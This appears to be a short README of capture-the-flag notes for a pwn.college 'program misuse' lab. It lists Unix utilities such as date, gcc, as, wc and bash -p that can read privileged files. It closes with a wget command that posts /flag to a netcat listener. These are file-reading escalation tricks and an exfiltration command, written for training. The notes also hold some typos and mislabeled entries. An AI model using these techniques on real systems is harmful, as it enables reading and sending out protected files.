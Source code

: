 # pwn-college-writups-fundamentals-program-misuse  

more  
less  
tail  
head  
cat  
emuc  
vim  
nano  
rev — prints reverse text of the file  
od — prints the octal format of the text  
hd — gives a hex dump of the file  
xxd — produces three-column output by default: file offsets, the data in hex, and the data as text  
base32 — prints base32 encoded text  
base64 — prints base64 encoded text  
split — splits larger files into smaller files which would have higher permissions  
gzip — zips the file — can be read with zcat command  
bzip2 — bzips the given file — can be read by bzgrep command  
zip — zips the file — read by zgrep  
tar — zips the file in a different format — read by tar xvf file.tar.gz -O | grep "text”  
ar — a Unix utility that maintains groups of files as a single archive file — can be read by — ar pv super.a  
env — controls the environment variable — can be read by env -i [command] [if needed commandfile]  
timeout — utility that runs a specified command and terminates it if it is still running after a given period of time. — can read files when the command is given — timeout 5 [command] [file]  
stdbuf — Run a command with modified I/O stream buffering — can read files by stdbuf -oL [command]  
search — change reported architecture in new program environment or set personality flags — files can be read by setarch --addr-no-randomize [command]  
awk — used to print a file — can be used to read the file by awk ‘’ file  
sed — replaces the text in a file — can be read by sed ‘’ file  
bash — shell scripting language — bash privilege can be maintained by — bash -p  
date — gives the current date and time — can be used to read files by — date -f [filename]  
dmesg -print or control the kernel ring buffer — can be used to read files — by dmesg -F [filename]  
wc — print newline, word, and byte counts for each file — can be used to read files by — wc -files0-from=[filename]  
gcc — GNU project C and C++ compiler — Can be used to read a file by — gcc -x c -E "filename"  
AS — the portable GNU assembler — can be used to read files by — as @[filename]  
Level 50  

wget --header="Content-type: multipart/form-data boundary=FILEUPLOAD" --post-file /flag http://127.0.0.1:4554/  
and set up a listeniner with nat cat  
nc -vlnp 4554  
and get the flag

